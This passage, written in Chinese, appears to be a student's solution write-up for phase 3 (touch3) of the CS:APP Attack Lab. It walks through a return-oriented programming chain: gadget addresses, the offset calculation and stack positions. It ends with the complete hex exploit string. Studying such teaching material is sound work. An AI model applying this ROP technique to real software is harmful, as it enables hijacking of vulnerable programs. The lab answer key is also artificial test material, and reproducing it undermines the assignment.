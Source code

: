 由于esi的值等于rsi的值，因此rsi现在也已存有了我们需要的偏移量值，而我们又已知`add_xy`函数存在操作`add_xy => lea (%rdi,%rsi,1),%rax => %rax=%rdi+%rsi`，于是我们可以先把rsp中的地址值赋值给rdi：`movq %rsp,%rax`(48 89 e0)、`movq %rax,%rdi`(48 89 c7)，然后调用`add_xy`，就可以将我们所需的地址值存到rax中

再调用`movq %rax,%rdi`(48 89 c7)，将所需地址值存到rdi中，后面跟上一个touch3的地址作为返回地址，最后再跟上cookie字符串的值就可以了

从getbuf函数的返回地址位置开始，到存储cookie字符串的位置，一共需要10个8字节来存储各个指令对应的gadget地址、偏移量、touch3函数地址，且存储顺序为：
1. `popq %rax`(58) => `4019cc`(<getval_280>+2)
2. `偏移量值`
3. `movl %eax,%edx`(89 c2) => `401a42`(<addval_487>+2)
4. `movl %edx,%ecx`(89 d1) => `401a69`(<getval_311>+1)
5. `movl %ecx,%esi`(89 ce) => `401a27`(<addval_187>+2)
6. `movq %rsp,%rax`(48 89 e0) => `401a06`(<addval_190>+3)
7. `movq %rax,%rdi`(48 89 c7) => `4019c5`(<setval_426>+2)
8. `lea (%rdi,%rsi,1),%rax` => `4019d6`(add_xy)
9. `movq %rax,%rdi`(48 89 c7) => `4019c5`(<setval_426>+2)
10. `touch3函数地址` => `4018fa`

因此在调用`movq %rsp,%rax`时，程序的状态从getbuf函数开始，经历了
1. getbuf函数结束前，rsp+0x28，对应我们输入的前40个字节
2. getbuf函数返回，pop第1个返回地址，rsp+8，对应1. `4019cc`(<getval_280>+2)
3. 第1个gadget中pop一个变量值，rsp+8，对应 2. `偏移量值`
4.  第1个gadget返回，pop第2个返回地址，rsp+8，对应 3. `401a42`(<addval_487>+2)
5.  第2个gadget返回，pop第3个返回地址，rsp+8，对应 4. `401a69`(<getval_311>+1)
6.  第3个gadget返回，pop第4个返回地址，rsp+8，对应 5. `401a27`(<addval_187>+2)
7.  第4个gadget返回，pop第5个返回地址，rsp+8，对应 6. `401a06`(<addval_190>+3)
8.  进入了第5个gadget，rsp此时已经pop掉了第5个返回地址，即**此时rsp的位置指向 7. `4019c5`(<setval_426>+2) 所处的位置**

`4019c5`(<setval_426>+2) 所处的位置**与cookie字符串所存储的位置中间还间隔3个gadget地址以及1个touch3函数地址**，共4个8字节，即32=0x20个字节，因此我们可以确定**偏移量=0x20**

综上，一共需要 补的40个字节+8个gadget地址(64字节)+偏移量值、touch3地址、cookie字符串(共24字节)=128字节
再次回顾答案：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补前40个字节 */
cc 19 40 00 00 00 00 00 /* popq %rax, gadget1 */
20 00 00 00 00 00 00 00 /* 偏移量值,0x20 */
42 1a 40 00 00 00 00 00 /* movl %eax,%edx, gadget2 */
69 1a 40 00 00 00 00 00 /* movl %edx,%ecx, gadget3 */
27 1a 40 00 00 00 00 00 /* movl %ecx,%esi, gadget4 */
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax, gadget5, 此时rsp距cookie字符串存储的位置相距32=0x20个字节 */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi, gadget6 */
d6 19 40 00 00 00 00 00 /* add_xy, gadget7 */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi, gadget8 */
fa 18 40 00 00 00 00 00 /* touch3地址 */
35 39 62 39 39 37 66 61 /* cookie字符串 */
```

![](./assets/3.%20lab3-attack/2023-08-10-13-00-57.png)

attack lab完结！